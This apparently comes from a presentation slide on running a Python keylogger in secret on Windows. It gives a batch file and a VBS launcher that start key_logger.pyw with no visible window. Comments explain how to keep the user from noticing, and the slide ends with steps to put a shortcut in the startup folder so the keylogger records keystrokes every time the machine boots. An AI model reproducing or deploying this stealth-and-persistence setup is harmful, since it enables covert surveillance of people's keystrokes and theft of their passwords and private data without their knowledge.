

Supported scripts for silently execution of the program-

script.bat file
@ECHO OFF

C:\Users\Asus\AppData\Local\Programs\Python\Python38-32\pythonw.exe
%CD%\key_logger.pyw %*

Script.vbs file
CreateObject("Wscript.Shell").Run "script.bat", 0, True

//here using ECHO OFF because bat files are generally interfere in the work of the system ,hence it can be detectible by the user therefor the ECHO OFF will disable the echoing, or displaying on the screen, of characters entered at  the keyboard.
//giving path

// here using batch snippets %CD% ,then giving file name that we have to run
//basically here we are giving the path of program & with the help of that we running our .pyw file

//this line can prevent the flashing of our bat file
Create shortcut of .vbs file and copy it into start-up folder(go to run ,type shell:startup). Here we are not pasting the original .vbs file because the vbs file is depended on bat file .
So by this step whenever the user turn on the system the keylogger automatically starts and records the keys.